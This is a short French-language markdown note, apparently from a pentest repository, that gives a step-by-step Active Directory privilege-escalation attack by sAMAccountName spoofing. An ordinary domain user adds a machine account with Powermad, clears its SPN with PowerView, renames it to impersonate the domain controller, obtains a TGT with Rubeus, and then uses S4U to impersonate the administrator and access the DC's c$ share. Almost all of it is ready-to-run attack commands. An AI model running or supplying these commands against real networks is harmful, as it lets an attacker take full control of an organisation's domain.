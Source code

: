Permet a un utilisateur authentifier sur le domaine de pouvoir ajouter une machine au domaine avec un mot de passe qui est defini que l'on connait.

De modifier le  l'attribut `SamAccountName` dans l'annuaire pour ursurper le nom du `DC` et en suite utiliser cette nouvelle machine avec le nom du DC quel ursurpe de l'utiliser pour genere un TGT pour dire `Nous sommes DC`.

Et en suite remettant le nom par defaut de la machine cette fois si communiquer avec le veritable DC en lui presentant notre TGT qui porte son propre nom en lui demandant un TGS et donc pour avoir la totaliter des droits sur le DC.


---

`Powermad.ps1` permet d'ajouter une machine au domaine et renommer l'attribut SamAccountName de la machine

`PowerView.ps1` permet de supprimer le SPN de la machine

---
Poste Client sur un domaine avec un utilisateur admin local

```sh
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount W10 -Domain dom.local -DomainController dc.dom.local -Verbose
```

```sh
Import-Module .\PowerView.ps1
Set-DomainObject "CN=W10,CN=Computer,DC=dom,DC=local" -Clear 'serviceprincipalename' -Verbose
```

```sh
Set-MachineAccountAttribute -MachineAccount W10 -Value "DC" -Attribute sAMAccountName -Verbose
```

```sh
Rubeus.exe asktgt /user:DC /password:Password123 /domain:dom.local /dc:dc.dom.local /nowrap
```

```sh
Set-MachineAccountAttribute -MachineAccount W10 -Value "W10" -Attribute sAMAccountName -Verbose
```

```sh
Rubeus.exe s4u /impersonateuse:Administrateur /nowrap /dc:dc.dom.local /self /altservice:CIFS/DC.dom.local /ptt /ticket:<ticket base 64>
```

```sh
klist
```


```sh
dir \\dc.dom.local\c$
```